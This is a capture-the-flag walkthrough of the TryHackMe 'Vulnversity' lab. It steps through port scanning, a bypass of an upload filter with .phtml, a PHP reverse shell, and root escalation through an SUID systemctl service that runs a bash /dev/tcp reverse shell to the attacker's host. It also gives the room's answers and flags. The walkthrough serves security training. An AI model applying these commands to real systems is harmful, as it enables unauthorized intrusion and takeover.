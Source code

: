 # **TryHackMe Vulnversity**
*Walkthrough using Kali Linux by Leonidas Karagkounis*

https://tryhackme.com/room/vulnversity

## **Reconnaissance**
Start by using nmap to scan for ports and services
```
nmap -sV <target_ip> 
```
1. **Scan the box, how many ports are open?**  
```
6
```
2. **What version of the squid proxy is running on the machine?** 
```
3.5.12
```
3. **How many ports will nmap scan if the flag -p-400 was used?**
```
400
```
4. **Using the nmap flag -n what will it not resolve?**  
```
DNS
```
5. **What is the most likely operating system this machine is running?**
```
Ubuntu
```
6. **What port is the web server running on?** 
```
3333
```

## **Locating directories using Gobuster**
Running gobuster to find hidden directories
```
gobuster dir --url http://<target_ip>:3333 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
1. **What is the directory that has an upload form page?** 
```
/internals/
```

## **Compromise the webserver**
Visit <target_ip>/internal/

You can start uploading files to find the extension that is blocked
1. **Try upload a few file types to the server, what common extension seems to be blocked?**  
```
.php
```

Start FoxyProxy and BurpSuite, upload a file and send the intercept to the intruder. Select Sniper attack and add for payload :
- php
- php3
- php4
- php5
- phtml

Then clear § and add § on the filename="hello.§php§" and start the attack. The only difference is noticed on phtml extension.

2. **Run this attack, what extension is allowed?** 
```
.phtml
```

### **Getting a reverse shell**

- Download php-reverse-shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

- Make a copy as php-reverse-shell.phtml. 

- Open the file and edit the $ip = '127.0.0.1' with your machine's ip. If you dont know what is your ip, type ifconfig and check the tun0 interface.

    *You can also change the $port = 1234 if you want to something else like 9001 for example which is what i did and if you follow along change it as well, otherwise make sure to change the commands later on with the appropriate port number.*

- Set up a netcat listener with the command :  
```
nc -nlvp 9001
```

- Upload the php-reverse-shell.phtml file to the webserver and go to the webpage 
```
http://<target_ip>:3333/internal/uploads/php-reverse-shell.phtml.
```
 
This will execute the script and return a reverse shell in your listener. 

### **Getting the user flag**
Start by typing cat /etc/passwd and it looks like we have one user at the end called bill.

3. **What is the name of the user who manages the webserver?** 
```
bill
```

Type 
```
cd /home/usr/bill
```
 Then 
 ```
 ls -al
 ``` 
 This reveals the user.txt flag. Type 
 ```
 cat user.txt
 ``` 
This should give you the user flag

4. **What is the user flag?** 
```
8bd7992fbe8a6ad22a63361004cfcedb
```

## **Privilege Escalation**
Start by typing 
```
find / -user root -perm /4000 2>/dev/null
```

1. **On the system, search for all SUID files. What file stands out?** 
```
/bin/systemctl
```

### **Getting a root shell**

- On your machine create a file called root.service. The content of the file should be this : 

        [Unit]
        Description=roooooooooot

        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/9001 0>&1'

        [Install]
        WantedBy=multi-user.target


- Start a python http server using the command 
```
python3 -m http.server 8000
```

- On the target machine run the command  
```
find / -type d -maxdepth 2 -writable
``` 
This should reveal all writable directories. Use cd to get into one in our case cd /tmp

- Run the command 
```
wget http://<your_ip>:8000/root.service
```
This should get the root.service file from your machine to the target. 

- Stop the python server and start a listener with 
```
nc -nlvp 9001
```

- Use the command  
```
/bin/systemctl enable /tmp/root.service
```

- Use the command 
```
/bin/systemctl start root
```

- Now you should have a root shell on your listener

### **Geting the root flag**

Navigate into root folder by using 
```
cd /root
``` 
Type 
```
ls -al
``` 
You should see the root.txt flag. Check the content with 
```
cat root.txt
```

2. **Become root and get the last flag (/root/root.txt)**
```
a58ff8579f0a9270368d33a9966c7fd5
```
